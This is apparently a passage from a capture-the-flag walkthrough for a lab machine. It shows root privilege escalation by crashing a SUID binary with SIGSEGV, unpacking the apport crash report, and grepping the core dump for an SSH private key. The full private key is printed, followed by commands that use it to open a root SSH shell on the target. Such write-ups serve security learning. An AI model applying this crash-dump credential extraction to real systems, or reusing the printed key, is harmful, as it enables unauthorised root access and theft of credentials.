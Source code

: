 ```
  32477 pts/1    00:00:00 count
  32481 pts/1    00:00:00 ps
(remote) dasith@secret:/opt$ kill -SIGSEGV 32477
(remote) dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

Unpack with `apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report2` and find the private key with `strings /tmp/crash-report2/CoreDump | grep -A 40 "BEGIN OPENSSH PRIVATE KEY"`. `-A 40` gets 40 lines after the matched text.

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Use `nano secret_root_key` and paste in the private key. Set the permissions for the key so that SSH will accept it: `chmod 600 secret_root_key`. Then, get a root SSH shell with `ssh root@10.10.11.120 -i secret_root_key`.
